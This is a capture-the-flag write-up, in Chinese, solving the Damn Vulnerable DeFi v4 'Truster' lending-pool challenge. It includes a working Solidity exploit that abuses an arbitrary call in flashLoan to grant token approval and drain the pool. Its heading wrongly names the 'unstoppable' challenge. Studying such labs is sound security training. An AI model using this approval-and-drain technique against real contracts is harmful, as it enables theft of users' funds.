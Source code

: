 # Damn Vulnerable DeFi v4 - unstoppable

- https://www.damnvulnerabledefi.xyz/challenges/truster/

## Check Condition

只能發送一筆交易：

```solidity
assertEq(vm.getNonce(player), 1, "Player executed more than one tx");
```

需要抽走 pool 的資金，並轉移至 recovery：

```solidity
assertEq(token.balanceOf(address(pool)), 0, "Pool still has tokens");

assertEq(
    token.balanceOf(recovery),
    TOKENS_IN_POOL,
    "Not enough tokens in recovery account"
);
```

## Break

主要原因是 arbitrary call：

```solidity
target.functionCall(data);
```

可以利用來設定 token approval，之後就能將資金轉出

## Solution

```solidity
contract Trigger {
    constructor(
        DamnValuableToken token,
        TrusterLenderPool pool,
        address recovery
    ) {
        // arbitary call and set approval
        pool.flashLoan(
            0,
            address(this),
            address(token),
            abi.encodeCall(IERC20.approve, (address(this), type(uint256).max))
        );
        // drain pool
        token.transferFrom(address(pool), address(this), 1_000_000e18);
        // transfer to recovery
        token.transfer(recovery, 1_000_000e18);
    }
}

// hack
Trigger instance = new Trigger(token, pool, recovery);
```
